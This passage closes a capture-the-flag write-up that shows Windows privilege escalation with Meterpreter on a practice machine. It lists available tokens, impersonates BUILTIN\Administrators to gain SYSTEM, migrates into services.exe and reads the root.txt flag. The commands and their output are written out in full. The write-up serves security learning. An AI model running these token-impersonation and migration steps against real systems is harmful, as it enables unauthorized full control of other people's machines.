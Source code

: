 ```bash
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================
```

Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).

Ensure that you migrate to a process with correct permissions (the above question's answer). The safest process to pick is the services.exe process. First, use the *ps* command to view processes and find the PID of the services.exe process. Migrate to this process using the command *migrate PID-OF-PROCESS*

```bash
meterpreter > impersonate_token 'BUILTIN\Administrators'
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > pgrep services.exe
668
meterpreter > migrate 668
[*] Migrating from 2784 to 668...
[*] Migration completed successfully.
```

```bash
meterpreter > ls '/Windows/System32/config/root.txt'
100666/rw-rw-rw-  70  fil  2019-10-26 12:36:00 +0100  /Windows/System32/config/root.txt
meterpreter > cat root.txt
dff0f748678f280250f25a45b8046b4a
```

Congrats, we officially rooted the machine !

That was all for this writeup, I hope you enjoyed it.